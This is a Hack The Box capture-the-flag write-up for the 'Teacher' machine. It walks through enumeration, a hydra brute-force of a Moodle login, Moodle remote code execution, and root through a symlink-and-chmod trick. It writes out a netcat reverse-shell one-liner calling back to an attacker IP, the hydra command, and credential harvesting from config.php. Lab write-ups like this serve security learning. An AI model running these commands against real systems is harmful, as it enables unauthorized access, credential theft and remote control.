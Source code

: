 ```yaml
---
title: "[HTB] Machine: Teacher"
description: "[HTB] Machine: Teacher"
date: 2023-06-12
menu:
  sidebar:
    name: "[HTB] Machine: Teacher"
    identifier: htb-machine-teacher
    parent: htb-machines-linux
    weight: 10
hero: images/teacher.png
tags: ["HTB"]
---
```


# Teacher
## Enumeration
- `nmap`
```
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 10.10.10.153                                 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-15 16:50 BST
Nmap scan report for 10.10.10.153 (10.10.10.153)
Host is up (0.10s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Blackhat highschool

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.53 seconds
```
- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.153 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.153
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,html
[+] Timeout:                 10s
===============================================================
2023/06/15 16:47:54 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 292]
/images               (Status: 301) [Size: 313] [--> http://10.10.10.153/images/]
/index.html           (Status: 200) [Size: 8028]
/gallery.html         (Status: 200) [Size: 8254]
/css                  (Status: 301) [Size: 310] [--> http://10.10.10.153/css/]
/manual               (Status: 301) [Size: 313] [--> http://10.10.10.153/manual/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.10.153/js/]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.10.153/javascript/]
/fonts                (Status: 301) [Size: 312] [--> http://10.10.10.153/fonts/]
/phpmyadmin           (Status: 403) [Size: 297]
/moodle               (Status: 301) [Size: 313] [--> http://10.10.10.153/moodle/]
/.html                (Status: 403) [Size: 292]
/server-status        (Status: 403) [Size: 300]

```
- Web server

![](./images/1.png)

- Checked a few interesting paths provided by `gobuster`

![](./images/2.png)
![](./images/3.png)
![](./images/4.png)

## Foothold
- I spend so much time searching for clues
  - Checked `searchploit`
  - Found a few `rce` exploit, but they require authentification

![](./images/6.png)

- Checked `/images`
  - And found a note

![](./images/5.png)

- We have piece of the password, let's write a script to generate all possible variations

![](./images/7.png)
![](./images/8.png)

- Let's run `hydra`
  - `hydra -l Giovanni -P passwords.list teacher.htb http-post-form "/moodle/login/index.php:anchor=&username=^USER^&password=^PASS^&rememberusername=1:Invalid login"`

![](./images/9.png)

- Now we can check the exploits
  - There is a [post](https://www.sonarsource.com/blog/moodle-remote-code-execution/) explaining `rce` in moodle

![](./images/10.png)

- Now we need to follow the steps and get our rce
  - Launch a listener
  - And perform the steps defined in the [post](https://www.sonarsource.com/blog/moodle-remote-code-execution/)
  - The following screenshots contain the steps described in the [post](https://www.sonarsource.com/blog/moodle-remote-code-execution/)

- Login, turn on editing and add an activity to any topic
  - Select `Quiz`

![](./images/11.png)
![](./images/12.png)

- Fill in required fields and save

![](./images/13.png)

- Open quiz and click on `edit quiz` button

![](./images/14.png)

- Add a new question

![](./images/15.png)

- Select `calculated`

![](./images/16.png)

- Fill in required forms
  - Add payload to `Answer` field
  - Save and click next

![](./images/17.png)

- Add payload to end of `url`
  - `&0=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.16.3 6666 >/tmp/f`

![](./images/18.png)

- We got a foothold

![](./images/19.png)

## User
- Enumerate
  - We can run `linpeas`
  - I started with basic enumeration 
  - `sudo -l` with no success
  - `find / -perm -4000 -exec ls -lha {} \; 2>/dev/null` no success
  - `ps -ef` showed that we have a `mysql` running

![](./images/20.png)

- Let's check the `/var/www/html/moodle` folder
  - Search for `db` configuration file

![](./images/21.png)

- We found `config.php`
  - Open it and use the creds stored to connect to `mysql`
    - `mysql -u root -p`
    - Found creds stored in `moodle` db and `mdl_user` table

![](./images/22.png)

- Checked hash in `Crackstation`
  - `su` to `giovanni`

![](./images/23.png)
![](./images/24.png)

## Root
- Enumerate again
  - `pspy` and `linpeas`

![](./images/25.png)

- Let's open the `script`

![](./images/26.png)

- We have few variants
  - Change permissions using symbolic links `ln -s` since `for each symbolic link listed on the command line, chmod changes the permissions of the pointed-to file`
  - So we can create links to
    - `/etc/passwd` -> modify it by adding `root` user
    - `/etc/shadow` ->  modify it by adding `root` user or crack `root` hash
    - `/usr/bin/backup.sh` -> append reverse shell payload
  - I prefered the last option

![](./images/27.png)
![](./images/28.png)
![](./images/29.png)

- Setup listener and wait for connection
  - Rooted

![](./images/30.png)
